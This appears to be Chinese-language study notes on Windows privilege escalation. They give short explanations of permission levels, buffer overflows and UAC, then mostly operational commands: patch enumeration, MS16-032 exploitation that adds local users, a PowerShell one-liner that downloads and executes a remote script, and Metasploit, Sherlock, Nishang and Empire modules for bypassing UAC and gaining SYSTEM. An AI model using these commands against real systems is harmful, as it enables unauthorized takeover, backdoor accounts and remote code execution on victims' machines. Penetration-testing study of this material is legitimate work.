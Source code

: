 ## 一、介绍

### 1、权限

```php
	User：普通用户权限
	Administrator：管理员权限
	System：系统权限
	TrustedInstaller：Windows中的最高权限
```

### 2、提权

```
	纵向提权：低权限角色获得高权限角色权限
	横向提权：获取同级别角色的权限
```



## 二、内核溢出

### 1、介绍

```php
# 溢出漏洞
	溢出漏洞就像往杯子里装水———如果水太多，杯子装不下了，就会溢出来。计算机中有个地方叫做缓冲区。程序缓存区的大小是事先设置好的，如果用户输入数据的大小超过了缓存区的大小，程序就会溢出。系统内核溢出漏洞提权是一种通用的提权方法，攻击者通常可以使用该方法绕过系统的所有安全限制。
```

```php
# WMIC
	WMIC（Windows Managerment Instrumentation Command-line），是Windows平台上最有用的命令行工具。使用WMIC，不仅可以管理本地计算机，还可以管理同一域内的所有计算机。
```

### 2、发现缺失补丁_手动

```php
# 查看当前权限
	whoami /groups
```

```php
# 查看补丁编号
	systeminfo
```

```php
# 列出已经安装的补丁
	Wmic qfe get Caption,Description,HotFixID,InstalledOn
```

```php
# 查看指定补丁
	wmic qfe get Caption,Description,HotFixID,InstalledOn | findstr /C:"KB3143141" /C:"KB976902"
```

```php
# 存在MS16-032漏洞，使用脚本添加用户1
	..\Invoke-MS16-032.ps1
	Invoke-MS16-032 -Application cmd.exe -Commandline "/C net user 1 1 /add"
```

```php
# 查看当前用户
	net user
```

```php
# 启动"记事本"
	..\Invoke-MS16-032
	Invoke-MS16-032 -Application notepad.exe
```

```php
# 远程执行命令（添加用户2）
	powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('链接');Invoke-MS16-032 -Application cmd.exe -commandline '/c net user 2 test123 /add'"
```

```php
# 查看当前用户
	net user
```

### 3、发现缺失补丁_MSF

```
	> use post/windows/gather/enum_patches
	> show options
	> set SESSION [session id]
	> run
```

### 4、利用_Suggester

```php
# 获取补丁信息
	systeminfo > patches.txt
	type patches.txt
```

```php
# 下载微软安全公告数据库
	./windows-exploit-suggester.py --update
```

```php
# 安装xlrd模块
	pip install xlrd --upgrade
```

```php
# 检查系统中是否存在未修复的漏洞
	./windows-exploit-suggester.py -d 2019-02-02-mssb.xls -i patches.txt
```

```php
# Metasploit找出系统中可能被利用的漏洞
	use post/multi/recon/local_exploit_suggester
	set LHOST [ip]
	set SESSION [sessions id]
	exploit
```

### 5、利用_Sherlock

```php
# 调用Sherlock脚本
	Import-Module C:\Sherlock.ps1
```

```php
# 搜索所有未安装的补丁
	Find-AllVulns
```

```php
# 搜索单个漏洞
	powershell Find-MS14058
```

```php
# elevate提权
	elevate ms14-058
```

```php
# 查看权限
	getuid
```

### 

## 三、绕过UAC

### 1、介绍

```php
# UAC简介
	如果计算机的操作系统版本是Windows Vista或更高，在权限不够的情况下，访问系统磁盘的根目录、Windows目录、Program Files目录，以及读写系统登录数据库的程序等操作，都需要经过UAC（User Account Control，用户账户控制）的认证才能进行。
```

```php
# UAC设置
	始终通知：最严格模式，每当有程序需要使用高级别的权限时都会提示本地用户
	仅在程序试图更改我的计算机时通知我：UAC默认设置
	仅在程序试图更改我的计算机时通知我（不降低桌面的亮度）
	从不提示：当用户为系统管理员时，所有程序都会以最高权限运行
```

### 2、MSF

```php
# bypass模块
	> use exploit/windows/local/bypassuac
	> set session [session id]
	> run
	> getuid
	> getsystem
	> getuid
```

```php
# runas模块
	> use exploit/windows/local/ask
	> set session [session id]
	> run	// 此时目标机器上会弹出UAC对话框，单机"是"按钮，会返回一个新的shell
	> getuid
	> getsystem
	> getuid
```

### 3、Nishang

```php
# Invoke-PsUACme模块
	> Invoke-PsUACme -Verbose	//使用Sysprep方法并执行默认的payload
	> Invoke-PsUACme -method oobe -Verbose	//使用oobe方法并执行默认的payload
	> Invoke-PsUACme -method oobe -Payload "powershell -windowstyle hidden -e [编码过的payload]"	//使用-payload参数，可以自行指定要执行的payload
```

### 4、Empire

```php
# bypassuac模块
	> usemodule privesc/bypassuac
	> set Listener shuteer
	> execute
	> back
	> list
```

```php
# bypassuac_wscript模块
	> usemodule privesc/bypassuac_wscript
	> set Listener test
	> execute
	> agents
```

